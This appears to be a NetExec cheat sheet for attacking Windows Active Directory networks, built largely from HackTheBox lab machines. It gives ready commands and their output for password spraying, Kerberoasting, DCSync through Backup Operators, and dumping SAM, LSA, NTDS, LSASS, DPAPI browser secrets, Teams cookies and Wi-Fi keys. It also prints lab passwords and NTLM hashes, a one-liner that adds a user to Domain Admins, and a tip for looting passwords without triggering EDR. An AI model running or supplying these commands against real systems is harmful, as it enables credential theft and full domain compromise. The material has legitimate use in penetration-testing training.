


NetExec
NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of large networks
NetExec can exploit multiple protocols like :
protocols:
available protocols
{smb,ssh,ldap,ftp,wmi,winrm,rdp,vnc,mssql}
smb own stuff using SMB
ssh own stuff using SSH
ldap own stuff using LDAP
ftp own stuff using FTP
wmi own stuff using WMI
winrm own stuff using WINRM
rdp own stuff using RDP
vnc own stuff using VNC
mssql own stuff using MSSQLInstall
apt install pipx git
pipx ensurepath
pipx install git+https://github.com/Pennyw0rth/NetExecor use the static binaries from here
Generate /etc/hosts file of a target IP
❯ sudo nxc smb 10.129.61.82 --generate-hosts-file /etc/hostsEnumerate smb
❯ nxc smb cicada.htb -u a -p '' --sharesEnumerate Users
❯ nxc smb cicada.htb -u a -p '' --rid-brute
❯ nxc smb cicada.htb -u a -p '' --usersSearch files with read access in SMB
❯ nxc smb cicada.htb -u a -p '' -M spider_plusPassword Spray
❯ nxc smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-successExecute command
- Credentials required
❯ nxc winrm cicada.htb -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -X 'cat C:\Users\emily.oscars.CICADA\desktop\user.txt'ASREP-Roasting
- without password
❯ nxc ldap 10.10.10.192 -u users.txt -p '' --asreproast output.txt
- with password
❯ nxc ldap 192.168.0.104 -u harry -p pass --asreproast output.txt --kdcHost oscp.localKerberoasting
❯ nxc ldap 10.10.10.100 -u svc_tgs -p GPPstillStandingStrong2k18 --kerberoasting output.txtUnconstrained Delegation
NetExec allows you to retrieve the list of all computers and users with the flag TRUSTED_FOR_DELEGATION
❯ nxc ldap 192.168.0.104 -u harry -p pass --trusted-for-delegationRead DACL Rights
LDAP module that permits to read and export the DACLs of one or mulitple objects !
- Read all the ACEs of the Administrator
❯ nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read
SMB lab-dc.lab.local 445 LAB-DC [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:lab.local) (signing:False) (SMBv1:False)
LDAP lab-dc.lab.local 389 LAB-DC [+] lab.local\
DACLREAD lab-dc.lab.local 389 LAB-DC Target principal found in LDAP (CN=Administrator,CN=Users,DC=lab,DC=local)
[*] ACE[0] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ReadProperty
[*] Flags : ACE_OBJECT_TYPE_PRESENT, ACE_INHERITED_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : User-Account-Restrictions (4c164200-20c0-11d0-a768-00aa006e0529)
[*] Inherited type (GUID) : inetOrgPerson (4828cc14-1437-45bc-9b07-ad6f015e5f28)
[*] Trustee (SID) : BUILTIN\Pre-Windows 2000 Compatible Access (S-1-5-32-554)
[*] ACE[1] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ReadProperty
[*] Flags : ACE_OBJECT_TYPE_PRESENT, ACE_INHERITED_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : User-Account-Restrictions (4c164200-20c0-11d0-a768-00aa006e0529)
[*] Inherited type (GUID) : User (bf967aba-0de6-11d0-a285-00aa003049e2)
[*] Trustee (SID) : BUILTIN\Pre-Windows 2000 Compatible Access (S-1-5-32-554)
[*] ACE[2] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ReadProperty
[*] Flags : ACE_OBJECT_TYPE_PRESENT, ACE_INHERITED_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : User-Logon (5f202010-79a5-11d0-9020-00c04fc2d4cf)
[*] Inherited type (GUID) : inetOrgPerson (4828cc14-1437-45bc-9b07-ad6f015e5f28)
[*] Trustee (SID) : BUILTIN\Pre-Windows 2000 Compatible Access (S-1-5-32-554)
[SNIP]- Read all the rights the BlWasp user has on the Administrator
❯ nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET=Administrator ACTION=read PRINCIPAL=BlWasp
SMB lab-dc.lab.local 445 LAB-DC [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:lab.local) (signing:False) (SMBv1:False)
LDAP lab-dc.lab.local 389 LAB-DC [+] lab.local\
DACLREAD lab-dc.lab.local 389 LAB-DC Found principal SID to filter on: S-1-5-21-2570265163-3918697770-3667495639-1103
DACLREAD lab-dc.lab.local 389 LAB-DC Target principal found in LDAP (CN=Administrator,CN=Users,DC=lab,DC=local)
[*] ACE[10] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ControlAccess
[*] Flags : ACE_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : User-Force-Change-Password (00299570-246d-11d0-a768-00aa006e0529)
[*] Trustee (SID) : blwasp (S-1-5-21-2570265163-3918697770-3667495639-1103)- Read all the principals that have DCSync rights on the domain
❯ nxc ldap lab-dc.lab.local -k --kdcHost lab-dc.lab.local -M daclread -o TARGET_DN="DC=lab,DC=LOCAL" ACTION=read RIGHTS=DCSync
SMB lab-dc.lab.local 445 LAB-DC [*] Windows 10.0 Build 17763 x64 (name:LAB-DC) (domain:lab.local) (signing:False) (SMBv1:False)
LDAP lab-dc.lab.local 389 LAB-DC [+] lab.local\
DACLREAD lab-dc.lab.local 389 LAB-DC Target principal found in LDAP (DC=lab,DC=local)
[*] ACE[13] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ControlAccess
[*] Flags : ACE_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*] Trustee (SID) : Domain Controllers (S-1-5-21-2570265163-3918697770-3667495639-516)
[*] ACE[14] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ControlAccess
[*] Flags : ACE_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*] Trustee (SID) : blwasp (S-1-5-21-2570265163-3918697770-3667495639-1103)
[*] ACE[27] info
[*] ACE Type : ACCESS_ALLOWED_OBJECT_ACE
[*] ACE flags : None
[*] Access mask : ControlAccess
[*] Flags : ACE_OBJECT_TYPE_PRESENT
[*] Object type (GUID) : DS-Replication-Get-Changes-All (1131f6ad-9c07-11d1-f79f-00c04fc2dcd2)
[*] Trustee (SID) : Administrators (S-1-5-32-544)Dump gMSA
Extract gmsa credentials accounts
Using the protocol LDAP you can extract the password of a gMSA account if you have the right.
❯ nxc ldap <ip> -u <user> -p <pass> --gmsaBloodHound Ingestor
❯ nxc ldap <ip> -u user -p pass --bloodhound -ns <ns-ip> --collection AllCheck which groups our user belongs to using the groupmembership module for LDAP
❯ nxc ldap 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M groupmembership -o USER="emily.oscars"
LDAP 10.10.11.35 389 CICADA-DC [*] Windows Server 2022 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
LDAP 10.10.11.35 389 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt (Pwn3d!)
GROUPMEM... 10.10.11.35 389 CICADA-DC [+] User: emily.oscars is member of following groups:
GROUPMEM... 10.10.11.35 389 CICADA-DC Remote Management Users
GROUPMEM... 10.10.11.35 389 CICADA-DC Backup Operators
GROUPMEM... 10.10.11.35 389 CICADA-DC Domain UsersIf your user is part of Group Backup Operators we can directly do DCSync using backup_operator module
❯ nxc smb 10.10.11.35 -u emily.oscars -p 'Q!3@Lp#M6b*7t*Vt' -M backup_operator
SMB 10.10.11.35 445 CICADA-DC [*] Windows Server 2022 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\emily.oscars:Q!3@Lp#M6b*7t*Vt
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Triggering RemoteRegistry to start through named pipe...
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SAM to \\10.10.11.35\SYSVOL\SAM
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SYSTEM to \\10.10.11.35\SYSVOL\SYSTEM
BACKUP_O... 10.10.11.35 445 CICADA-DC Saved HKLM\SECURITY to \\10.10.11.35\SYSVOL\SECURITY
SMB 10.10.11.35 445 CICADA-DC [*] Copying "SAM" to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB 10.10.11.35 445 CICADA-DC [+] File "SAM" was downloaded to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SAM"
SMB 10.10.11.35 445 CICADA-DC [*] Copying "SECURITY" to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB 10.10.11.35 445 CICADA-DC [+] File "SECURITY" was downloaded to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SECURITY"
SMB 10.10.11.35 445 CICADA-DC [*] Copying "SYSTEM" to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
SMB 10.10.11.35 445 CICADA-DC [+] File "SYSTEM" was downloaded to "/home/serioton/.nxc/logs/CICADA-DC_10.10.11.35_2025-02-11_185959.SYSTEM"
BACKUP_O... 10.10.11.35 445 CICADA-DC Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
BACKUP_O... 10.10.11.35 445 CICADA-DC Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35 445 CICADA-DC DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.10.11.35 445 CICADA-DC $MACHINE.ACC:plain_password_hex:6209748a5ab74c44bd98fc5015b6646467841a634c4a1b2d6733289c33f76fc6427f7ccd8f6d978a79eec3ae49eb8c0b5b14e193ec484ea1152e8a04e01a3403b3111c0373d126a566660a7dd083aec1921d53a82bc5129408627ae5be5e945ed58cfb77a2a50e9ffe7e6a4531febd965181e528815d264885921118fb7a74eff51306dbffa4d6a0c995be5c35063576fc4a3eba39d0168d4601da0a0c12748ae870ff36d7fb044649032f550f04c017f6d94675b3517d06450561c71ddf8734100898bf2c19359c69d1070977f070e3b8180210a92488534726005588c0f269a7e182c3c04b96f7b5bc4af488e128f8
BACKUP_O... 10.10.11.35 445 CICADA-DC $MACHINE.ACC: aad3b435b51404eeaad3b435b51404ee:188c2f3cb7592e18d1eae37991dee696
BACKUP_O... 10.10.11.35 445 CICADA-DC dpapi_machinekey:0x0e3d4a419282c47327eb03989632b3bef8998f71
BACKUP_O... 10.10.11.35 445 CICADA-DC NL$KM:cc1501f764391e7a5e538cc174e62b01369b50b8d07223d9b6c56e922f5708d81eba8e8123250327364c19b496cd251f8ff97f5d71e66e8cffcbeb5e4ea4e696
SMB 10.10.11.35 445 CICADA-DC [+] cicada.htb\Administrator:2b87e7c93a3e8a0ea4a581937016f341 (Pwn3d!)
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Dumping NTDS...
SMB 10.10.11.35 445 CICADA-DC [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB 10.10.11.35 445 CICADA-DC [-] Could not connect: timed out
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Cleaning dump with user Administrator and hash 2b87e7c93a3e8a0ea4a581937016f341 on domain cicada.htb
BACKUP_O... 10.10.11.35 445 CICADA-DC [*] Successfully deleted dump files !Defeating LAPS
Using NetExec when LAPS installed on the domain
If LAPS is used inside the domain, is can be hard to use NetExec to execute a command on every
computer on the domain.
Therefore, a new core option has been added --laps ! If you have compromised an accout that can read LAPS password you can use NetExec like this
in this case , we can see our user can read Laps password.
now let’s use nxc to do this attack
❯ nxc winrm <IP> -u username -p 'password' --laps
okay that’s our LAPS password.
Manual Way to Read Laps Password
Get-ADComputer DC01 -property 'ms-mcs-admpwd'now let’s try to connect as administrator with that password & see if it works or not
❯ evil-winrm -i timelapse.htb -S -u administrator -p 'q.p+T{80W7t4Er#jzl]OcI6O'bingo!! it works :D
Dumping All Files from SMB
❯ nxc smb 10.10.10.10 -u 'user' -p 'pass' -M spider_plus -o DOWNLOAD_FLAG=TrueGet and Put Files
Send a File to the Remote Target
Send a local file to the remote target
❯ nxc smb 172.16.251.152 -u user -p pass --put-file /tmp/whoami.txt \\Windows\\Temp\\whoami.txtGet a File From the Remote Target
Get a remote file on the remote target
❯ nxc smb 172.16.251.152 -u user -p pass --get-file \\Windows\\Temp\\whoami.txt /tmp/whoami.txtChecking for Spooler & WebDav
Checking if the Spooler Service is Running
❯ nxc smb <ip> -u 'user' -p 'pass' -M spoolerChecking if the WebDav Service is Running
❯ nxc smb <ip> -u 'user' -p 'pass' -M webdavImpersonate logged-on Users
Use Sessions from logged-on Users to execute arbitrary commands using schtask_as
You need at least local admin privilege on the remote target
The Module schtask_as can execute commands on behalf on other users which has sessions on the target
Attack Vector :
- Enumerate logged-on users on your Target
❯ nxc smb <ip> -u <localAdmin> -p <password> --loggedon-users- Execute commands on behalf of other users
❯ nxc smb <ip> -u <localAdmin> -p <password> -M schtask_as -o USER=<logged-on-user> CMD=<cmd-command>Custom command to add an user to the domain admin group for easy copy & pasting:
powershell.exe \"Invoke-Command -ComputerName DC01 -ScriptBlock {Add-ADGroupMember -Identity 'Domain Admins' -Members USER.NAME}\"Steal Microsoft Teams Cookies
You need at least local admin privilege on the remote target
New NetExec module to dump Microsoft Teams cookies. You can use them to retrieve information like users, messages, groups etc or send directly messages in Teams.
❯ nxc smb <ip> -u user -p pass -M teams_localdbObtaining Credentials
Dump SAM
You need at least local admin privilege on the remote target, use option —local-auth if your user is a local account
❯ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --samDump LSA
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
❯ nxc smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --lsaDump NTDS.dit
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
❯ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
❯ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
❯ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
❯ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vssYou can also DCSYNC with the computer account of the DC
There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py
❯ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M ntdsutilDump LSASS
You need at least local admin privilege on the remote target, use option —local-auth if your user is a local account
Using Lsassy
❯ nxc smb 192.168.255.131 -u administrator -p pass -M lsassyUsing nanodump
❯ nxc smb 192.168.255.131 -u administrator -p pass -M nanodumpusing MimiKatz
❯ nxc smb 192.168.255.131 -u administrator -p pass -M mimikatz
❯ nxc smb 192.168.255.131 -u Administrator -p pass -M mimikatz -o COMMAND='"lsadump::dcsync /domain:domain.local /user:krbtgt"Dump KeePass
❯ nxc smb <ip> -u user -p pass -M keepass_discover
❯ nxc smb <ip> -u user -p pass -M keepass_trigger -o KEEPASS_CONFIG_PATH="path_from_module_discovery"Dump DPAPI
you can dump all secrets from Credential Manager, Chrome, Edge, Firefox
You need at least local admin privilege on the remote target, use option —local-auth if your user is a local account
- cookies : Collect every cookies in browsers
- nosystem : Won’t collect system credentials. This will prevent EDR from stopping you from looting passwords 🔥
❯ nxc smb <ip> -u user -p password --dpapi
❯ nxc smb <ip> -u user -p password --dpapi cookies
❯ nxc smb <ip> -u user -p password --dpapi nosystemDump WIFI password
Get the WIFI password register in Windows
You need at least local admin privilege on the remote target, use option —local-auth if your user is a local account
❯ nxc smb <ip> -u user -p pass -M wirelessExtract gMSA Secrets
Convert gSAM id, convert gmsa lsa to ntlm NetExec offer multiple choices when you found a gmsa account in the LSA
❯ nxc ldap <ip> -u <user> -p <pass> --gmsa-convert-id 313e25a880eb773502f03ad5021f49c2eb5b5be2a09f9883ae0d83308dbfa724
❯ nxc ldap <ip> -u <user> -p <pass> --gmsa-decrypt-lsa '_SC_GMSA_{84A78B8C-56EE-465b-8496-FFB35A1B52A7}_313e25a880eb773502f03ad5021f49c2eb5b5be2a09f9883ae0d83308dbfa724:01000000240200001000120114021c02fbb096d10991bb88c3f54e153807b4c1cc009d30bc3c50fd6f72c99a1e79f27bd0cbd4df69fdf08b5cf6fa7928cf6924cf55bfd8dd505b1da26ddf5695f5333dd07d08673029b01082e548e31f1ad16c67db0116c6ab0f8d2a0f6f36ff30b160b7c78502d5df93232f72d6397b44571d1939a2d18bb9c28a5a48266f52737c934669e038e22d3ba5a7ae63a608f3074c520201f372d740fddec77a8fed4ddfc5b63ce7c4643b60a8c4c739e0d0c7078dd0c2fcbc2849e561ea2de1af7a004b462b1ff62ab4d3db5945a6227a58ed24461a634b85f939eeed392cf3fe9359f28f3daa8cb74edb9eef7dd38f44ed99fa7df5d10ea1545994012850980a7b3becba0000d22d957218fb7297b216e2d7272a4901f65c93ee0dbc4891d4eba49dda5354b0f2c359f185e6bb943da9bcfbd2abda591299cf166c28cb36907d1ba1a8956004b5e872ef851810689cec9578baae261b45d29d99aef743f3d9dcfbc5f89172c9761c706ea3ef16f4b553db628010e627dd42e3717208da1a2902636d63dabf1526597d94307c6b70a5acaf4bb2a1bdab05e38eb2594018e3ffac0245fcdb6afc5a36a5f98f5910491e85669f45d02e230cb633a4e64368205ac6fc3b0ba62d516283623670b723f906c2b3d40027791ab2ae97a8c5c135aae85da54a970e77fb46087d0e2233d062dcd88f866c12160313f9e6884b510840e90f4c5ee5a032d40000f0650a4489170000f0073a9188170000'Scan for Vulnerabilities
When you start your internal pentest, these are the first modules you should try:
ZeroLogon
❯ nxc smb <ip> -u '' -p '' -M zerologonPetitPotam
❯ nxc smb <ip> -u '' -p '' -M petitpotamnoPAC
You need a credential for this one
❯ nxc smb <ip> -u 'user' -p 'pass' -M nopac